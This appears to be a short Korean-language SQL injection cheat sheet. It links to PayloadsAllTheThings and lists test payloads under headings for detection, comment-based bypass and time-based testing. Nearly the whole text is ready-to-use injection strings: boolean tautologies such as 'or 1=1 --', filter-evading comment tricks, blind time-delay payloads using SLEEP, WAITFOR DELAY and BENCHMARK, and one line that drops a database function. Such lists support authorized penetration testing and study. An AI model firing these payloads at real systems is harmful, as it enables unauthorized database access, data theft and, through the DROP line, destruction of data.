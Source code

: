 # SQLInjection

`
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
`

SqIinjection 테스트 코드 

탐지 점검
```
&apos;
'
```

```
/**/and/**/1=1/**/--
(1)and(1)=(1)
```



```
or 1=1 -- 
' or 1=1 -- 
" or 1=1 -- 
1 and 1=2 -- 
```

```
'//AND//'1%'='0 
```

주석으로 우회 
```
'/**/AND/**/'1%'='0
```

시간 기반 테스트 
```
'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

```
';WAITFOR DELAY '0:0:5'--
```

테스트
```
'||(SELECT 0x615a636e FROM DUAL WHERE 7192=7192 AND (SELECT 4865 FROM (SELECT(SLEEP(5)))VDbe))||'
```

```
`=`1` AND ELT(1337=1337 AND ELT(1337=1337,SLEEP(5*5)))|[1
```

OR x=y     

HAVING 1=0

AND 1=0


AND 7=9 AND (5=5
 AND 7=9 AND ('5=5
 AND 7=7 AND 'Z'='Y
 AND 7=7 AND ('Z'='Y
 WHERE 1=1 AND 1=0

AND SLEEP(15)
+ SLEEP(10) + '
' AnD SLEEP(15) ANd '1
(SELECT * FROM (SELECT(SLEEP(15)))ecMj)
+benchmark(3200,SHA1(1))+'
ORDER BY SLEEP(15)
'&&SLEEP(15)&&'1
0' AND SLEEP(15)
';WAITFOR DELAY '0:0:30'--
'+WAITFOR+DELAY+'0:0:10'--+-"

(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
'+(select*from(select(sleep(7*7)))a)+'
 OR 3=3 AND ('W' LIKE 'Y
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
IF(7=4) SELECT 7 ELSE DROP FUNCTION xcjl--
%' AND 1=8 AND '%'='

